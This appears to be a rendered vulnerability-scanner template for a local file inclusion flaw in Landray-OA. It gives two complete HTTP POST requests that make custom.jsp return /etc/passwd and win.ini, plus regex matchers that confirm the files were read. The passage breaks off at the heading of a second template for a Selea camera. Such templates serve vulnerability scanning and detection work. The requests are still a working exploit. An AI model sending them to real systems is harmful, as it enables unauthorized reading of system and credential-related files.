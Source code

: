 ## Description

- Landray-OA is susceptible to local file inclusion.
- severity - high
- tags - landray,lfi,cnvd,cnvd2021

## Requests

### Step - 1

```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: {{Hostname}}
Accept: */*
Content-Type: application/x-www-form-urlencoded

var={"body":{"file":"file:///etc/passwd"}}

```

### Step - 2

```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: {{Hostname}}
Accept: */*
Content-Type: application/x-www-form-urlencoded

var={"body":{"file":"file:///c://windows/win.ini"}}

```

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
  2. for 16-bit app support
- condition - or

**Type - status**

- status
  1. 200

---

# Selea Targa IP OCR-ANPR Camera - Local File Inclusion

## Description

